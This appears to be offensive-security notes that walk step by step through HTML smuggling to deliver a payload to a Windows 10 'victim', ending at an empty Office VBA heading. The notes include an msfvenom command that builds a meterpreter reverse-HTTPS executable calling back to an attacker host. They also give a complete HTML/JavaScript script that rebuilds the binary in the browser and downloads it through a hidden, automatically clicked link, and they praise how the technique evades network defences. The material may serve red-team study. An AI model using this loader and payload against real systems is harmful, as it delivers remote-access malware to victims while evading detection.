 ## HTML Smuggling 
Attempting to use this TTP to deliver a payload to the Vicitm Win10 [Microsoft Link](https://www.microsoft.com/security/blog/2021/11/11/html-smuggling-surges-highly-evasive-loader-technique-increasingly-used-in-banking-malware-targeted-attacks/)

This attack is effective because it encodes an apbitary file into a javascript blob which it then rebuilds on the target. Thus, the payload does not pass through network sensors, IDS, proxies, and other network based defensive tools.  It builds the malware locally in the browser and then downloads it to the target. 

We will still need to account for EDR tools, however, it is an evasive loader TTP that can subvert network detection metods. 

**Step 1 )**
- Generate a payload and convert it to base64 to be stored in the blob later.
	- `sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe -o /var/www/html/msfstaged.exe`
	- `base64 /var/www/html/msfstaged.exe`
		- Note: You must store the b64 in one continuous string... Remove the all line breaks `\n`

**Step 2 ) **
- Convert the b64 payload to a byte array and store in a data var
	- function base64ToArrayBuffer(base64)
```
function base64ToArrayBuffer(base64)
{
 var binary_string = window.atob(base64);
 var len = binary_string.length;
 var bytes = new Uint8Array( len );
 for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
 return bytes.buffer;
}
```

**Step 3 )**
- Take that new byte array and store the array for use
	- `var data = base64ToArrayBuffer(file);`

**Step 4 )**
- Generate the Blob of data with a MIME type for generic binary data (or binary data whose true type is unknown) is `application/octet-stream`.
	-  `var blob = new Blob([data], {type: 'octet/stream'}); `
-  The constructor syntax is:

`new Blob(blobParts, options);`

-   **`blobParts`** is an array of `Blob`/`BufferSource`/`String` values.
-   **`options`** optional object:
	-   **`type`** – `Blob` type, usually MIME-type, e.g. `image/png`,
	-   **`endings`** – whether to transform end-of-line to make the `Blob` correspond to current OS newlines (`\r\n` or `\n`). By default `"transparent"` (do nothing), but also can be `"native"` (transform).

	For example:
	```
	// create Blob from a string
	let blob = new Blob(["<html>…</html>"], {type: 'text/html'});
	// please note: the first argument must be an array [...]
	```


**Step 5 )**
- Create the hidden anchor `<a>` html anchor tag and move our data into this html anchor
	- 

**Step 6 )**
- Name the file, pass that to the anchor tag, and preform a click action to download the file without user action. The HTML DOM `createElement()` Method creates an Element Node with the specified name. After the element is created, use the `element.appendChild()` or `element.insertBefore()` method to insert it to the document.
	- `var a = document.createElement('a');` 
	- `document.body.appendChild(a);` 
	-  `a.style = 'display: none';`
	Example: 
```
<!DOCTYPE html>
<html>
<body>

<p>Click the button to create a P element with some text.</p>

<button onclick="myFunction()">Try it</button>

<script>
function myFunction() {
  var para = document.createElement("p");
  para.innerText = "This is a paragraph.";
  document.body.appendChild(para);
}
</script>

</body>
</html>
```
As you can see the function `myFunction()` is called by the "Try is" `<button>`. When the script is called the `<p>` element is created and  the `innerText` property of the element is used to display some text. 

**Step 7 )**
- Finish building the anchor tag with the requsit elements. 
	- 	`var url = window.URL.createObjectURL(blob); `
	- 	`a.href = url; `
	- 	`a.download = fileName; a.click(); `
	- 	`window.URL.revokeObjectURL(url);`

Entire Sctipt )
```
<html>
 <body>
 <script>
	 function base64ToArrayBuffer(base64) {
	 var binary_string = window.atob(base64);
	 var len = binary_string.length;
	 var bytes = new Uint8Array( len );
	 for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i);
	}
	 return bytes.buffer;
	 } 

	 var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA... 
	 var data = base64ToArrayBuffer(file); 
	 var blob = new Blob([data], {type: 'octet/stream'}); 
	 var fileName = 'msfstaged.exe'; 

	 var a = document.createElement('a'); 
	 document.body.appendChild(a); 
	 a.style = 'display: none'; 
	 var url = window.URL.createObjectURL(blob); 
	 a.href = url; 
	 a.download = fileName; a.click(); 
	 window.URL.revokeObjectURL(url);
 </script>
 </body>
</html>
```

## Microsoft Office VBA
